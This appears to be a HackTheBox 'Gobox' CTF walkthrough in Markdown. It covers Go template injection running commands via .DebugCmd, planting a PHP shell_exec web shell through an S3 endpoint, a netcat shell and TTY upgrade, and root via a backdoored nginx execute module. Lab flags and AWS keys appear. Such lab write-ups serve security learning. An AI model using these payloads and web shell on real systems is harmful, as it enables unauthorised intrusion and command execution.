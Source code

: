 ### write ups
* https://0xdf.gitlab.io/2021/08/30/htb-gobox.html#shell-as-root
* https://fahmifj.github.io/hackthebox/gobox/

### Two special FUZZ for SSTI
```bash
wfuzz -u http://$IP:8080/forgot/ -w /usr/share/seclists/Fuzzing/special-chars.txt -d email=FUZZFUZZ --hw 97
```

```bash
Target: http://10.129.95.236:8080/forgot/
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                          
=====================================================================

000000027:   200        50 L     96 W       1497 Ch     "; - ;"                                                                                                                          
000000014:   200        50 L     96 W       1499 Ch     "+ - +"                                                                                                                          
000000016:   502        7 L      11 W       150 Ch      "{ - {"                                                                                                                          
000000006:   200        50 L     96 W       1497 Ch     "% - %"                                                                                                                          
000000008:   200        50 L     96 W       1497 Ch     "& - &"  
```

### SSTI 
* https://www.onsecurity.io/blog/go-ssti-method-research/
* https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#ssti-in-go
* https://www.calhoun.io/intro-to-templates-p3-functions/

### Login with the web creds
Got the source code and call a method through a template injection. As long as the method is an attribute of te value passed to the template. 

Therefore, even specify explicit parameters, similar to how to perform a deserialization attack.

Find a gadget and php deserialization or any deserialization.

### Found aws creds instead of reverse shell as the firewall ruled out
```txt
aws_access_key_id=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
```

aws --profile default configure set aws_access_key_id 'SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz'
aws --profile default configure set aws_secret_access_key "SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz"
aws --profile default configure set region 'us-east-1'

### AWS Enum works find on both attack and victim machines
```bash
❯ aws --endpoint-url=http://$IP:4566 s3 ls
2023-01-12 17:10:53 website
```

```js burp
email={{ .DebugCmd "aws s3 ls" }}
```

### Get shell just like Bucket.pdf
```bash
echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' > a.php

aws --endpoint-url=http://$IP:4566 s3 cp a.php s3://website/

❯ curl http://10.129.95.236/a.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
$ cat user.txt
3a790c96cde75fc6d3ed518cff8f95fa
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@gobox:/home/ubuntu$ ^Z
[1]  + 54542 suspended  nc -lvnp 80
❯ stty raw -echo; fg
[1]  + 54542 continued  nc -lvnp 80
                                   id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@gobox:/home/ubuntu$
```

adjust tty size
```
❯ tput cols
124
                                                                                                                            
❯ tput lines
56

stty rows 56 columns 124
```

### Enum
```bash
www-data@gobox:~$ ss -lnpt
State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        511            127.0.0.1:8000          0.0.0.0:*              
LISTEN   0        4096             0.0.0.0:9000          0.0.0.0:*              
LISTEN   0        4096             0.0.0.0:9001          0.0.0.0:*              
LISTEN   0        511              0.0.0.0:8080          0.0.0.0:*              
LISTEN   0        511              0.0.0.0:80            0.0.0.0:*              
LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*              
LISTEN   0        511              0.0.0.0:4566          0.0.0.0:*              
LISTEN   0        128              0.0.0.0:22            0.0.0.0:*              
LISTEN   0        4096                [::]:9000             [::]:*              
LISTEN   0        4096                [::]:9001             [::]:*              
LISTEN   0        128                 [::]:22               [::]:* 

ps -ef

root         956       1  0 Jan12 ?        00:00:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;

/usr/bin/docker-proxy

root        1173     968  0 Jan12 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 9000 -container-ip 172.28.0.2 -container-port 4566
root        1180     968  0 Jan12 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 9000 -container-ip 172.28.0.2 -container-port 4566
root        1193     968  0 Jan12 ?        00:00:59 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 9001 -container-ip 172.28.0.3 -container-port 80
root        1199     968  0 Jan12 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 9001 -container-ip 172.28.0.3 -container-port 80
```

Running `ss -lnpt` reveals many ports are listening on the box, specifically 127.0.0.1:8000
sticks out because it is the only port listening on localhost.
Making a web request to that port reveals that it is an HTTP Server and running `ps -ef` shows
that nginx is running not apache. The NGINX Configuration has a weird option (Command: on)
that is not used in any nginx documentation.

```bash
www-data@gobox:/etc/nginx$ ls
conf.d        fastcgi_params  koi-win     modules-available  nginx.conf    scgi_params      sites-enabled  uwsgi_params
fastcgi.conf  koi-utf         mime.types  modules-enabled    proxy_params  sites-available  snippets       win-utf
www-data@gobox:/etc/nginx$ cd sites-enabled/
www-data@gobox:/etc/nginx/sites-enabled$ ls
default
www-data@gobox:/etc/nginx/sites-enabled$ cat default

server {
        listen 127.0.0.1:8000;
        location / {
                command on;
        }
}
```

When I try to interact with it, it returns nothing.
```bash
www-data@gobox:/opt$ curl -s http://127.0.0.1:8000
www-data@gobox:/opt$ curl -I http://127.0.0.1:8000
curl: (52) Empty reply from server
```

Searching Google for "Command: On" Nginx
Github should bring up the NginxExecute module (https://github.com/A1vinSmith/NginxExecute).
Additionally, looking into /usr/share/nginx/modules/ reveals the name of the module.

Therefore, let's go and check the `modules-enabled`

```bash
www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf 
load_module modules/ngx_http_execute_module.so;
www-data@gobox:/etc/nginx/modules-enabled$ find / -type f -name "ngx_http_execute_module.so" 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
```

Above GitHub page states that curl -g "http://192.168.18.22/?system.run[command]" can be
used to execute commands. However, when attempting to do it with our IP/Port, it does not
work. Running strings against the nginx module and grepping for "run", reveals the name was
changed from system to ippsec and updating our command will allow for escalation to root.

` -g, --globoff       Disable URL sequences and ranges using {} and []`

```bash
www-data@gobox:/etc/nginx/modules-enabled$ curl -s -g "http://127.0.0.1:8000/?ippsec.run[cat /root/root.txt]"
613a8ad3c12be9a12f90c550ac388cbb
www-data@gobox:/etc/nginx/modules-enabled$ strings /usr/lib/nginx/modules/ngx_http_execute_module.so | grep run
```